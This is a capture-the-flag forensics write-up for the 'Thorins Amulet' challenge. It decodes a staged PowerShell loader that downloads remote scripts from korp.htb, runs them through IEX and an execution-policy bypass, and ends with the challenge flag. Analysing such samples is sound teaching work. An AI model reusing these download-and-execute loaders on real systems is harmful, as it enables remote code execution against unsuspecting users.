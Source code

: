 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Thorins Amulet Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Thorins Amulet
tags: "forensics, starry, powershell"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>



## Thorins Amulet

> Solved by Starry-Lord


![](https://i.imgur.com/KHsPmEl.png)


inside the zip downloadable we could find `artifact.ps1` :


    function qt4PO {
        if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
            exit
        }
        powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
    }
    qt4PO

Base 64 string decoded to the following:


    IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")

But it was not giving a connection unless you had the correct `COMPUTERNAME` environment variable. This will temporarily change it:


    $env:COMPUTERNAME = "WORKSTATION-DM-0043"

With that we could run the PowerShell if we wanted, but visiting the URL from the challenge docker was enough to get to the next stage which returned a `update.ps1`:


    function aqFVaq {
        Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
        powershell.exe -exec Bypass -File "a541a.ps1"
    }
    aqFVaq

This time I used curl with headers in order to pass the `X-ST4G3R-KEY` which was needed to get the last bit:

curl command:

    curl -H "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" http://94.237.57.230:59390/a541a

a541a.ps1:

    $a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
    ($a35-split"(..)"|?{$_}|%{\[char\][convert]::ToInt16($_,16)}) -join ""

Decode hex for the flag:

    HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}


